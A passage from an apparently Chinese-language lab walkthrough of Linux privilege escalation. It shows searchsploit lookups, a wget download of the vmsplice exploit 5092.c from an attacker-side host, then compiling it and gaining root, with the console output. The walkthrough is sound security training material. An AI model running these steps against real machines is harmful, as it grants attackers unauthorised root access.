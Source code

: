     ```

-   搜索内核版本

-   ```shell
    └─$ searchsploit linux kernel 2.6.2 | grep "Privilege"
    ```

-   下载对应的版本`searchsploit linux kernel 2.6.2 -m 5092`

-   将文件传输到靶机中并进行编译

-   ```shell
    obama@ubuntuvm:~$ wget 192.168.2.128/5092.c   
    --05:17:27--  http://192.168.2.128/5092.c
               => `5092.c'
    Connecting to 192.168.2.128:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 6,288 (6.1K) [text/x-c]
    
    100%[==================================================================================================================================================================>] 6,288         --.--K/s             
    
    05:17:27 (650.40 MB/s) - `5092.c' saved [6288/6288]
    
    obama@ubuntuvm:~$ gcc 5092.c -o 5092
    5092.c:289:28: warning: no newline at end of file
    ```

-   执行脚本获得root权限

-   ```shell
    obama@ubuntuvm:~$ ls -lhai
    total 36K
    538569 drwxr-xr-x 3 obama obama 4.0K 2023-05-26 05:18 .
    538561 drwxr-xr-x 6 root  root  4.0K 2008-06-11 09:26 ..
    538586 -rwxr-xr-x 1 obama obama  11K 2023-05-26 05:18 5092
    538585 -rwxr-xr-x 1 obama obama 6.2K 2023-05-26 05:17 5092.c
    538571 -rw------- 1 obama obama   42 2008-06-19 10:10 .bash_history
    538580 drwx------ 2 obama obama 4.0K 2008-06-12 11:22 .ssh
    obama@ubuntuvm:~$ ./5092
    -----------------------------------
     Linux vmsplice Local Root Exploit
     By qaaz
    -----------------------------------
    [+] mmap: 0x0 .. 0x1000
    [+] page: 0x0
    [+] page: 0x20
    [+] mmap: 0x4000 .. 0x5000
    [+] page: 0x4000
    [+] page: 0x4020
    [+] mmap: 0x1000 .. 0x2000
    [+] page: 0x1000
    [+] mmap: 0xb7e09000 .. 0xb7e3b000
    [+] root
    root@ubuntuvm:~# whoami
    root
    root@ubuntuvm:~# ip a
    1: lo: <LOOPBACK,UP,10000> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,10000> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:5e:18:c9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.138/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:fe5e:18c9/64 scope link 
           valid_lft forever preferred_lft forever